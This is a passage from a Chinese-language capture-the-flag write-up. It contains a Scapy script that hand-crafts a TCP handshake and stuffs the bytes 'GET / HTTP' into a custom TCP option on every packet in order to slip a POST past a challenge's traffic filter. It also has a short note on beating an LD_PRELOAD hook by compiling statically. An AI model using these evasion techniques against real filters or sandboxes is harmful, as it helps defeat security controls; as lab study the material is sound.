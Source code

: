 又 debug 了半天找不到哪里有问题，只好再看看有没有什么更符合标准的方式，然后发现 tcp 的 option 是可以放任意数据的，那么就不需要手改 data offset 了。

```python
from scapy.all import *
import random

HTTP_GET = b"GET / HTTP"
SRC_IP = "192.168.24.3"
SRC_PORT = random.randint(1024, 65535)
DST_IP = "192.168.23.1"
DST_PORT = 18082
TOKEN = ""
HTTP_PAYLOAD = f"POST / HTTP/1.1\r\nHost: {DST_IP}:{DST_PORT}\r\nContent-Length: 99\r\n\r\n{TOKEN}".encode()

ip = IP(src=SRC_IP, dst=DST_IP)
SYN = TCP(
    sport=SRC_PORT, dport=DST_PORT, flags="S", seq=1000, options=[(233, HTTP_GET)]
)
SYNACK = sr1(ip / SYN)

ACK = TCP(
    sport=SRC_PORT,
    dport=DST_PORT,
    flags="A",
    seq=SYN.seq + 1,
    ack=SYNACK.seq + 1,
    options=[(233, HTTP_GET)],
)
send(ip / ACK)

http = TCP(
    sport=SRC_PORT,
    dport=DST_PORT,
    flags="AP",
    seq=SYN.seq + 1,
    ack=SYNACK.seq + 1,
    options=[(233, HTTP_GET)],
)
http.add_payload(HTTP_PAYLOAD)
http.show2()
send(ip / http)
```

## 为什么要打开 /flag

是我这届最喜欢的轻松愉快不用逆向的小 binary 题。
拿到了一血十分开心。

### LD_PRELOAD, love!

LD_PRELOAD 只对动态链接 libc 的有效，所以静态编译就能过。
我的话直接拿 go 糊了个。

